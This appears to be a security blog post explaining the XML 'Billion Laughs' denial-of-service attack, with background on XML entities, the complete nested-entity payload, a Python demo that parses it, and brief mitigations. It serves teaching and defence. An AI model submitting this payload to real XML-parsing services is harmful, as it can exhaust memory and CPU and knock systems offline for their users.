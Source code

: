 ```yaml
---
layout: post
title:  "XML Security: A Billion Laughs"
date:   2016-01-26 02:22:02 +0900
description: XML Security
tags: [security]
---
```



# What ?
The Billion Laughs attack is a denial-of-service attack that targets XML parsers in many programming language libraries such as: SAX, Etree, DOM.  It can occur even when using well-formed XML and can also pass XML schema validation.

# Why should we care about it ?
An attacker submits an XML document to a target application where the XML document uses nested entity expansion to produce an excessively large output XML. XML allows the definition of macro-like structures that can be used to simplify the creation of complex structures. However, this capability can be abused to create excessive demands on a processor's CPU and memory. A small number of nested expansions can result in an exponential growth in demands on memory.

# How
### Background
In order to understand how Billion laughs attack works, we need to have background in XML entity and some definitions of XML document:

* DTDs (Document Type Definition) are meant to define the expected structure of an XML document. It is a set of markup declarations that defines a document type for an SGML-family markup languages (SGML, XML, HTML).
* XML stands for EXtensible Markup Language.
* XML was designed to store and transport data.
* XML was designed to be both human and machine-readable.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<animal>
  <name>cat</name>
  <action>meoooo</action>
</animal>
```

XML Entities:

* Entities are used to define shortcuts to special characters.
* Entities can be declared internal or external.
* Entities that are not predefined can be declared internal or external.
    * Internally declared - the entity is defined within the same document.
    * Externally declared - the entity is defined in an external document. Only the reference to the external document is given.

The following code will explain what XML entity is:

```xml
<!ENTITY writer "Donald Duck.">
<!ENTITY copyright "Copyright W3Schools.">
<author>&writer;&copyright;</author>
```

When we use `&writer;` it will symbolic present to writer attribute and get value "Donal Duck". Similar to that thing, `&copyright;` will symboic present to copyright and get value "Copyright W3Schools".

## Exploit
The vanilla Billion Laughs attack is illustrated as XML code follow:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

In this example, there are 10 different XML entities, lol – lol9. The first entity, lol is defined to be the string “lol”.  However, each of the other entities are defined to be 10 of another entity.  The document content section of this XML file contains a reference to only one instance of the entity lol9.  However, when this is being parsed by a DOM or SAX parser, when lol9 is encountered, it is expanded into 10 lol8’s, each of which is expanded into 10 lol7’s, and so on and so forth.  By the time everything is expanded to the text lol, there are 100,000,000 instances of the string lol.  If there was one more entity, or lol was defined as 10 strings of “lol”, there would be a Billion “lol”s, hence the name of the attack.  Needless to say, these expansions consumes an exponential amount of resources and time, causing the DOS.

# Demo
XML file name `lol.xml`:

```xml
<?xml version="1.0"?>
<!DOCTYPE lolz [
<!ENTITY lol "lol">
<!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
<!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
<!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
<!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
<!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
<!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
<!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
<!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

Python code:

```python
import xml.etree.ElementTree as ET
tree = ET.parse('lol.xml')
root = tree.getroot()
```

Execute it.

# Mitigating
Because the behavior of each XML parser may be different based on implementation, there is no one way to prevent Billion Laughs attacks.  However, there are a few main techniques used to prevent this denial-of-service attack.

* Turn off entity expansion.
* Limit the number of Entity Reference Nodes so that the parser can expand.
* Limit the number of characters entities can expand to.
